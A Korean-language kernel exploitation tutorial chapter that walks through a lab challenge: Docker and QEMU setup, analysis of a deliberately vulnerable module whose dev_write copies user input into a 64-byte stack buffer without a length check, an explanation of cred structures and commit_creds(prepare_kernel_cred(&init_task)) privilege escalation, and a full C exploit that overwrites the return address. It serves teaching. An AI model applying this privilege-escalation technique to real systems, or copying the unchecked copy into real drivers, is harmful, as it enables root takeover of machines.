





# 1-3. 첫 번째 커널 해킹 문제

드디어 첫 번째 실습 시간입니다! 이번 장에서는 실제로 취약한 커널 모듈이 적재된 리눅스 커널을 공격해보겠습니다.

먼저 실습 자료 폴더(chall) 안에 있는 `first_chall.zip` 파일을 다운로드하여 압축을 풀어주세요.

실습은 실험 환경이 모두 갖춰진 Docker 컨테이너 환경에서 진행합니다. 리눅스 터미널(Windows 사용자는 WSL을 사용)을 열고 아래 명령어들을 순서대로 입력해 주세요.(Windows 사용자는 Docker Desktop을 먼저 실행해 주세요.)

```bash
# [1] Docker 이미지 만들기(이름은 자유롭게 하셔도 좋습니다.)
docker build -t first_chall .

# [2] 컨테이너를 백그라운드(-d)로 실행하고, 내 컴퓨터의 8000번 포트와 연결하기
docker run -d -p 8000:8000 first_chall

# [3] 넷캣(nc) 도구를 사용해 열려있는 8000번 포트로 접속하기
nc localhost 8000

# [4] socat 을 사용하면 실제 셸 환경처럼 더 깔끔한 접속도 가능합니다.
sudo apt install socat # 보통 socat은 기본적으로 설치되지 않은 경우가 더 많으니 먼저 설치해 주세요.
socat FILE:`tty`,raw,echo=0 TCP:localhost:8000
```

접속에 성공하면, 아래와 같이 부팅 로그가 지나간 뒤 QEMU 가상머신 환경이 열린 모습을 볼 수 있습니다!



위 사진과 같이 부팅 이후 `id`가 1000이고, 루트 디렉토리에 vuln\.ko, init, flag\.txt, exploit 파일이 모두 보이면 됩니다! 각 파일들의 용도는 다음과 같습니다.

|파일 이름|용도|
|---|---|
|vuln\.ko|우리가 공격해야 할 취약한 커널 모듈입니다. 현재 시스템에 이미 적재(Load)되어 있으며, `/dev/vuln`이라는 통로로 접근할 수 있습니다.|
|init|시스템이 켜질 때 가장 먼저 실행되어 각종 초기 설정을 잡아주는 스크립트 파일입니다.|
|flag\.txt|우리의 최종 목표인 플래그(Flag) 파일입니다. 최고 관리자(root) 소유이므로 현재의 일반 사용자 권한으로는 읽을 수 없습니다.|
|exploit|공격을 수행하는 익스플로잇(Exploit) 실행 파일입니다. 여러분이 참고할 수 있도록 미리 넣어두었지만, 우리는 **이 코드를 처음부터 직접 C언어로 작성하는 법**을 배울 것입니다!|

이제 문제 환경을 분석하여 주어진 `flag.txt`를 읽는 방법을 찾아봅시다!

## rootfs\.cpio 압축 풀고 init, vuln\.ko 분석하기

rootfs\.cpio 는 문제 환경이 사용하는 루트 파일 시스템입니다. 이 파일 안에 우리가 분석해야 할 취약한 모듈(`vuln.ko`)과 부팅 스크립트(`init`)가 있습니다.

주어진 루트 파일 시스템의 압축을 풀어서, 필요한 파일들을 꺼내세요.

### init 분석

`init`은 리눅스가 부팅될 때 커널이 가장 먼저 실행하는 1번 프로세스(스크립트)입니다. 부팅될 때 내부에서 어떤 일들이 일어나는지 간단히 살펴봅시다.

```bash
#!/bin/sh

mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs devtmpfs /dev

# 1. 취약한 커널 모듈을 커널에 적재하기
insmod /vuln.ko
chmod 666 /dev/vuln

# 2. 플래그 파일은 최고 관리자(root)만 읽을 수 있도록 권한 설정
chown 0:0 /flag.txt
chmod 400 /flag.txt

exec 0</dev/console
exec 1>/dev/console
exec 2>/dev/console

echo "7 4 1 7" > /proc/sys/kernel/printk

# 3. 커널 내 함수들의 주소를 사용자도 읽을 수 있도록 복사본 생성
cp /proc/kallsyms /tmp/kallsyms

# 4. 일반 사용자(1000) 권한으로 권한을 낮추어 셸(sh) 실행하기!
setsid cttyhack setuidgid 1000 sh

umount /proc
umount /sys
poweroff -d 0  -f
```

`init`의 코드를 보면 이 문제 환경의 '규칙'을 알 수 있습니다!

`init`은 자체는 부팅 직후에 실행되므로 **최고 관리자(root) 권한으로 실행됩니다.** 따라서 취약한 모듈(`/dev/vuln`)을 커널에 올리고, `flag.txt`를 root 사용자만 읽을 수 있도록 설정할 수 있습니다. 앞서 0-3 에서 배웠던 '커널 주소록'의 복사본(`/tmp/kallsyms`)을 만들어, 사용자가 문제를 편하게 풀 수 있도록 했습니다.

마지막으로 `setuidgid 1000 sh`을 사용하여, 사용자 권한을 일반 유저(1000)로 하락시킨 다음 셸을 실행합니다. 우리가 문제 환경 접속 직후 uid가 1000인 것도 이것 때문입니다.

이제 `/dev/vuln`의 취약점을 익스플로잇 하기 위해, 그 모듈인 `vuln.ko`를 분석해봅시다!

### vuln\.ko 분석

이제 우리가 공격할 모듈이 정의된 `vuln.ko` 를 IDA Free를 사용하여 분석해 봅시다.



먼저 데이터 영역에 존재하는 `fops(file_operations)` 구조체를 살펴봅시다. 1-1 에서 `fops` 구조체는 사용자가 모듈에 명령(open, read, write 등)을 내릴 때 실행될 커널 함수들을 매핑해 두는 구조체라고 배웠죠?

사진을 보면 `.write` 항목에 `dev_write`라는 함수가 연결되어 있는 것이 보입니다. 즉, 사용자가 `/dev/vuln` 파일에 write 시스템 호출을 사용하면, 모듈 내부에 있는 `dev_write` 함수가 실행된다는 뜻입니다! 이제 `dev_write`를 분석해봅시다.

```c
ssize_t __fastcall dev_write(file *filep, const char *buffer, size_t len, loff_t *offset)
{
  bool v6; // zf
  ssize_t result; // rax
  char k_buffer[64]; // [rsp+0h] [rbp+0h] BYREF

  memset(k_buffer, 0, sizeof(k_buffer));
  printk(a1: &unk_918, a2: len);
  /* 사용자의 입력이 길이 제한 없이 복사됩니다! */
  v6 = copy_from_user(a1: k_buffer, a2: buffer, a3: len) == 0;
  result = -14;
  if ( v6 )
    return len;
  return result;
}
```

앞서 1-2장에서 설명했던 취약점이 그대로 설계되어 있습니다. `k_buffer`의 크기는 64바이트인데, 사용자가 넘겨주는 `len`을 검증하지 않고 그대로 복사(`_copy_from_user`)하고 있습니다. 따라서 버퍼 오버플로우를 일으켜 `dev_write` 함수의 **반환 주소(Return Address)를 우리가 원하는 주소로 덮어쓸 수 있습니다.**

그렇다면 도데체 쓰레기(Dummy) 데이터를 몇 바이트나 채워 넣어야 반환 주소를 덮을 수 있을까요? 이를 정확히 계산하기 위하여, IDA View에서 함수가 끝나는 부분(에필로그)를 살펴봅시다. 코드가 종료될 때 스택 메모리가 어떻게 정리되는지 주목하세요.



스택은 다음과 같은 순서로 정리됩니다.

1. 먼저 `k_buffer`에 해당하는 공간인 64바이트가 빠집니다.
2. 함수 시작 시 백업해두었던 레지스터 3개(len, rbp, buffer) 가 순서대로 빠집니다. 한 번에 8바이트씩 3번 빠지므로 총 24바이트가 빠집니다.
3. 이후 등장하는 `jmp __x86_return_thunk`는 **최신 커널 환경에서 `ret`을 대신하여 안전하게 반환을 하는 함수**입니다! 이 명령어가 실행될 때, 스택의 최상단에 있는 반환 주소를 꺼내고 실행 흐름을 옮깁니다.

따라서 `dev_write`의 반환 주소를 덮으려면, **먼저 64+24=88 바이트를 쓰레기 값으로 덮고, 그 다음 8바이트에 원하는 주소를 써서** 반환 주소를 덮을 수 있습니다! 이제 이 설명에 맞추어 본격적인 익스플로잇 코드를 작성해 봅시다!

## 실행 흐름을 어디로 옮길까?

앞서 우리는 88바이트를 쓰레기 값으로 채우고, '도착지 주소'를 덮어쓰면 실행 흐름을 조작할 수 있다는 것을 계산했습니다. 그렇다면 그 도착지는 어디가 되어야 할까요?

이번 실습을 위해 vuln\.ko 안에는 제가 미리 만들어둔 **win_function**이라는 특별한 함수가 숨겨져 있습니다. 이 함수로 점프하는 것이 우리의 최종 목표이며, 내부 구조는 다음과 같습니다.

```c
void __fastcall win_function(__int64 a1, __int64 a2)
{
  __int64 v2; // rax
  unsigned __int64 v3; // rax
  unsigned __int64 v4; // rbx
  loff_t pos; // [rsp+0h] [rbp-58h] BYREF
  char buf[64]; // [rsp+8h] [rbp-50h] BYREF

  pos = 0;
  memset(buf, 0, sizeof(buf));
  printk(a1: &unk_8C0, a2); // 해킹 성공 축하 메시지를 커널 로그에 출력합니다.

  /* 사용자에게 즉시 최고 관리자(root) 권한을 부여합니다. */
  v2 = prepare_kernel_cred(a1: &init_task);
  commit_creds(a1: v2);

  /* root 권한으로 되어있던 플래그 파일을 읽고 출력합니다. */
  v3 = filp_open(a1: "/flag.txt", a2: 0, a3: 0);
  v4 = v3;
  if ( v3 <= 0xFFFFFFFFFFFFF000LL )
  {
    kernel_read(a1: v3, a2: buf, a3: 63, a4: &pos);
    printk(a1: &unk_97F, a2: buf);
    filp_close(a1: v4, a2: 0);
    panic(a1: "Mission Clear"); // 플래그 출력이 끝났으니 커널을 고의로 패닉(Panic) 상태로 만듭니다.
  }
  printk(a1: &unk_8F0, a2: v3);
}
```

디컴파일된 C 코드가 조금 복잡해 보이나요? 걱정하지 마세요. 처음부터 이 코드의 모든 것을 이해하려 할 필요는 없습니다!

여기서 여러분이 눈여겨보아야 할 핵심은 딱 두 가지입니다.

1. 권한 상승 : prepare_kernel_cred와 commit_creds는 리눅스 커널 해킹에서 **'자신의 권한을 최고 관리자(root, UID 0)로 교체할 때 사용하는 가장 대표적인 함수'**입니다. 이 두 함수가 순서대로 실행되는 순간, 우리는 즉시 root 권한을 획득합니다.
2. 패닉(panic) : 플래그를 출력한 직후 시스템이 곧바로 멈춰버립니다(Panic). 컴퓨터가 죽었는데 해킹 성공이라니 이상하지 않나요? 맞습니다! 이번 실습의 목적은 **'우리가 커널의 취약점을 찔러 실행 흐름을 마음대로 조작할 수 있는가'**를 증명하는 것이기 때문입니다.

이제 본격적으로 `dev_write` 에서 실행 흐름을 `win_function`으로 옮기는 익스플로잇 코드를 작성해 봅시다!

### 잠깐! cred가 무엇인가요?

리눅스에서 실행 중인 모든 프로세스는 커널 내부에서 `task_struct` 라는 거대한 구조체로 관리됩니다. 우리가 터미널에서 프로그램이나 셸 스크립트 등을 실행할 때, 커널은 각 프로세스마다 이 `task_struct`를 하나씩 할당해 줍니다. 쉽게 말해 **프로세스의 '신분증'** 과도 같습니다.

이 이력서(`task_struct`)에는 프로세스의 현재 상태, PID 번호, 우선순위, 부모와 자식 관계, 열린 파일 목록, **해당 프로세스의 권한 정보** 등 엄청나게 많은 정보가 기록되어 있습니다.

[다음 링크](https://elixir.bootlin.com/linux/v7.1.4/source/include/linux/sched.h)에는 리눅스 커널에서 프로세스를 정의하는 `sched.h`의 실제 코드를 볼 수 있습니다. 거대한 `task_struct` 구조체 정의 중 우리가 주목해야 할 핵심 부분만 떼어 살펴봅시다.

```c
struct task_struct {
    ...
    unsigned int			__state; // 프로세스의 상태(실행 중, 대기 중 등)
    pid_t				pid; // 프로세스의 pid
    int				prio; // 프로세스의 우선순위

    /* 🚨 리눅스 커널 해킹의 핵심! 프로세스의 권한 정보 */
	const struct cred __rcu		*real_cred; // 객체에 접근할 때 쓰이는 실제 권한
	const struct cred __rcu		*cred; // 현재 프로세스의 유효 권한(우리의 목표입니다!)
    (기타 등등...)
}
```

여기서 `cred` 라는 구조체 포인터는 **현재 프로세스의 유효 권한**을 의미하며, **프로세스의 '신분증' 과 같은 역할을 합니다.** 이 구조체가 바로 `struct cred` 구조체입니다.

그럼 이 신분증(`struct cred`)은 어떻게 생겼을까요? [다음 링크](https://elixir.bootlin.com/linux/v7.1.4/source/include/linux/cred.h) 에서 실제 리눅스 커널의 `cred.h`를 확인해 봅시다.

```c
struct cred {
	atomic_long_t	usage;
	kuid_t		uid;		/* 실제 UID */ 
	kgid_t		gid;		/* 실제 GID */
	kuid_t		suid;		/* 저장된 UID */
	kgid_t		sgid;		/* 저장된 GID */
	kuid_t		euid;		/* 👑 [중요] 커널이 권한을 검사할 때 실제로 확인하는 값 (Effective UID) 입니다! */
    (기타 등등..)
}
```

여기서 가장 중요한 값이 바로 **euid (Effective UID, 유효 사용자 ID)**입니다. 리눅스 커널은 특정 파일을 읽거나 중요한 작업을 할 때 "이 프로세스가 권한이 있나?"를 판단하기 위해 바로 이 `euid` 값을 확인합니다. **만약 이 값이 0으로 적혀 있다면, 커널은 이 프로세스를 무조건 root(최고 관리자)로 대우해 줍니다.**(리눅스에서 root의 UID는 0입니다.)

따라서, 프로세스의 권한 개념을 커널 메모리상에 물리적인 데이터(변수 값)로 구현한 것이 바로 cred 구조체입니다.

### 잠깐! prepare_kernel_cred, commit_creds 는 무엇인가요?

이 두 함수는 리눅스 커널 내부에 기본적으로 존재하는 함수들로, 커널이 권한을 다룰 때 사용하는 핵심 도구들입니다.

- `struct cred prepare_kernel_cred(struct task_struct *)`
    * 정의 : 인자로 주어진 프로세스(`task_struct`)의 권한을 복사하여, 새로운 권한 구조체(`cred`)를 만듭니다.
    * 비유 : 특정 프로세스의 권한을 복사하여 새 신분증을 발급받는 과정입니다.
- `int commit_creds(struct cred *)`
    * 정의 : 인자로 주어진 `cred`를 현재 실행중인 태스크(task, 프로세스)에 적용합니다. 즉, 현재 프로세스의 `task_struct` 구조체에 있는 권한 값을 덮어씁니다.
    * 비유 : 현재 프로세스가 사용하는 신분증을 다른 것으로 교체합니다.

즉, 이 두 함수를 연달아 사용하면 우리가 원하는 막강한 권한의 신분증을 새로 만들고, 그것을 내 프로세스에 적용할 수 있습니다. **이것이 리눅스 커널 권한 상승(LPE)의 절대적인 핵심입니다!**

**그렇다면 도대체 '누구'의 권한을 복사해야 root(최고 관리자) 권한을 얻을 수 있을까요?**

우리는 바로 **init\_task**를 타겟으로 삼습니다. init\_task는 리눅스 시스템이 부팅될 때 가장 먼저 실행되는 1번 프로세스의 이력서이며, 당연히 태초의 최고 권한(root)을 가지고 있기 때문입니다.

따라서 `commit_creds(prepare_kernel_cred(&init_task))`를 실행하면, 내 프로세스의 권한이 즉시 root로 교체되는 것입니다!

#### 해커의 TMI : prepare\_kernel\_cred(NULL) 도 있지 않았나요?

구글링을 통해 과거의 커널 해킹 문서(Write-up)들을 읽어보면, `prepare_kernel_cred(0)` 또는 `NULL`을 인자로 넘기는 코드를 자주 보실 수 있습니다. 과거에는 이렇게 빈 인자(`NULL`)를 주면 커널이 알아서 root 권한의 신분증을 발급해 주었기 때문입니다.

하지만 최신 리눅스 커널에서는 보안 패치 및 구조 변경으로 인해 이 방식이 차단되었습니다. 따라서 현대의 커널 해킹에서는 안전하고 확실하게 `&init_task`를 인자로 넘겨주는 방식을 사용한답니다!

### 🤔 잠깐! 이미 커널(최고 권한) 영역에 들어왔는데, 굳이 권한을 또 올려야 하나요?

사용자가 시스템 호출을 통해 커널 영역으로 진입하더라도, 커널은 별개의 독립적인 존재로 움직이는 것이 아닙니다. **현재 실행 중인 사용자 프로세스를 '대리'하여 코드를 실행해 줄 뿐입니다.** (앞서 배운 `task_struct`를 그대로 짊어지고 커널 영역으로 들어간다고 생각하시면 됩니다.)

따라서 현재 CPU가 커널 영역(Ring 0) 코드를 달리고 있다 하더라도, **커널 메모리에 기록된 현재 프로세스의 신분증(`cred`)은 여전히 '일반 사용자(1000)' 상태입니다.**

앞서 살펴본 `win_function`에서 만약 `commit_creds(...)` 부분이 빠지면 어떻게 될까요?

```c
void __fastcall win_function(__int64 a1, __int64 a2)
{
  (앞부분 생략)

  /* 사용자에게 즉시 최고 관리자(root) 권한을 부여하는 이 코드가 사라지면? */
  // v2 = prepare_kernel_cred(a1: &init_task);
  // commit_creds(a1: v2);

  /* root 권한으로 되어있던 플래그 파일을 읽고 출력합니다. */
  v3 = filp_open(a1: "/flag.txt", a2: 0, a3: 0);
  (중략)
  printk(a1: &unk_8F0, a2: v3); // 파일 읽기에 실패하면 오류 메시지를 출력합니다.
}
```

`filp_open` 함수는 커널 내부에서 파일을 여는데 사용하는 함수입니다. 리눅스 커널은 매우 철저하기 때문에, 이런 정상적인 내부 함수가 호출되면 **"지금 나한테 이걸 부탁한 프로세스가 누구지?"** 하고 현재 프로세스의 신분증(`current_cred()`)을 검사합니다.

따라서 현재 실행 흐름이 커널 영역에 있더라도, 내 신분증이 일반 사용자라면 당연히 `flag.txt` 접근은 거부(Access Denied, EACCES)당하게 됩니다!

**그렇다면 커널 영역 침투의 진짜 위력은 무엇일까요?**

앞서 설명한 `prepare_kernel_cred`, `commit_creds` 함수들은 일반 사용자 영역에서는 접근조차 할 수 없습니다.(CPU 내부의 하드웨어인 MMU(Memory Management Unit)이 이것을 하드웨어적으로 차단합니다.)

하지만! 커널 영역을 익스플로잇 한다면, 권한 검사는 받을지언정 커널 내부의 모든 함수에 자유롭게 접근/실행할 수 있는 능력이 생깁니다. 고로자신의 프로세스의 신분증(`cred`)를 마음대로 제어할 수 있게 됩니다!

우리가 `win_function`으로 실행 흐름을 옮겼을 때 발생하는 일은 다음과 같이 설명할 수 있습니다.

1. 커널 영역에 있는 `win_function`으로 실행 흐름을 옮기는데 성공했다. 하지만 프로세스의 `cred`는 여전히 일반 사용자 상태이다.
2. `commit_creds(...)`를 실행하면 내 프로세스의 `cred`가 root의 것으로 교체된다.
3. 이제 내 권한이 root 이므로, `filp_open` 함수가 내 권한을 검사하면 내 권한이 root로 인식되므로 함수가 정상 실행된다.

## 익스플로잇 작성하기

이제 `dev_write` 함수에 버퍼 오버플로우를 일으켜, 원래의 반환 주소(Return Address) 자리를 `win_function`의 주소로 덮어써야 합니다.

하지만 커널 내부 함수의 정확한 주소를 알아야 점프를 할 수 있겠죠? 앞서 `init` 스크립트에서 친절하게 만들어 둔 `/tmp/kallsyms` 파일을 이용해 봅시다. 커널에는 수만 개의 함수가 정의되어 있으므로, `grep` 명령어를 사용하여 우리가 원하는 함수만 골라내는 것이 좋습니다.

문제 환경의 셸에서 다음을 입력하세요 : `cat /tmp/kallsyms | grep win_function`



`vuln` 모듈에서 사용하는 `win_function`과 관련한 심볼이 검색되었습니다. 여기서 우리가 주목할 것은 `ffffffffc0000010 T win_function [vuln]` 입니다!

T는 해당 심볼이 텍스트(코드) 영역에 존재한다는 뜻이며, **그 시작 주소는 `0xffffffffc0000010` 라는 뜻입니다.**

이제 필요한 모든 것을 구했으니 실제 익스플로잇 코드를 작성해 봅시다!

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#define NUM 88 // 64 (버퍼) + 24 (백업된 레지스터들)

int main() {
    // 1. 취약한 커널 모듈 장치 파일에 접근합니다.
    int fd = open("/dev/vuln", O_RDWR);
    if (fd < 0) {
        perror("[-] Failed to open /dev/vuln");
        return -1;
    }

    // 2. 페이로드 구성하기
    char payload[200] = { 0 };
    memset(payload, 'A', NUM); // (1) 버퍼 64바이트 + 백업된 레지스터 24바이트 = 총 88바이트를 쓰레기 값('A')으로 채웁니다.
    unsigned long win_addr = 0xffffffffc0000010;
    memcpy(payload + NUM, &win_addr, 8); // (2) 그 직후에 위치한 원래의 '반환 주소(RET)' 자리를 win_function의 시작 주소로 덮어씁니다.

    printf("[+] Target address: %p\n", (void*)win_addr);
    printf("[+] Sending exploit payload...\n");

    // 3. write 시스템 호출을 실행하여, 조작된 96바이트(88+8)를 밀어 넣어 dev_write의 반환 주소를 덮어씁니다!
    write(fd, payload, NUM + 8);

    close(fd);
    return 0;
}
```

구조가 한 눈에 보이시나요? 먼저 open 으로 모듈 파일에 접근하고, 버퍼 오버플로를 실행하기 위한 페이로드를 작성하고, write로 실제 커널 모듈에 페이로드를 전송하여 공격을 합니다.

문제 환경에 설치된 `exploit` 파일이 공격 코드를 컴파일한 바이너리입니다! 해당 파일을 실행해 보세요.



축하합니다! 성공적으로 커널의 실행 흐름을 조작하고 플래그를 획득했습니다!

이번 실습에서는 플래그 획득 직후 커널이 즉시 패닉(Panic)했습니다. 하지만 진짜 프로 해커라면 시스템을 죽이는 것이 아니라, **할 일(권한 상승)을 마쳤으면 다시 시스템을 정상 상태로 돌려 놓아야 겠죠?**

다음 장부터는 **공격을 성공시킨 후 일반 사용자 영역으로 안전하게 돌아오는(Graceful Return) 방법을 배웁니다.** 이제 진짜 해커가 될 시간입니다!